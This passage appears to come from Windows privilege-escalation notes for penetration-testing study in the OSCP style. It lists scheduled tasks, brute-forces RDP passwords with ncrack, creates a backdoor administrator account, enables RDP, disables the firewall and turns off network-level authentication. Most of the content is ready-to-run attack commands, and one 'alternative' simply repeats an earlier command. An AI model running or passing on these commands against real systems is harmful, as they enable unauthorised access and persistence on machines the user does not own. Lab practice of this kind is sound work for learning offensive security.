 
### Scheduled tasks

```
schtasks /query /fo LIST /v

Check this file:
c:\WINDOWS\SchedLgU.Txt
```

### Weak passwords

Remote desktop

```
ncrack -vv --user george -P /root/oscp/passwords.txt rdp://10.10.10.102
```

### Useful commands


**Add user and enable RDP**

```
net user haxxor Haxxor123 /add
net localgroup Administrators haxxor /add
net localgroup "Remote Desktop Users" haxxor /ADD

# Enable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

Turn firewall off
netsh firewall set opmode disable

Or like this
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

If you get this error:

"ERROR: CredSSP: Initialize failed, do you have correct kerberos tgt initialized ?
Failed to connect, CredSSP required by server.""

Add this reg key:

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```



------------------------------------------------------------------------



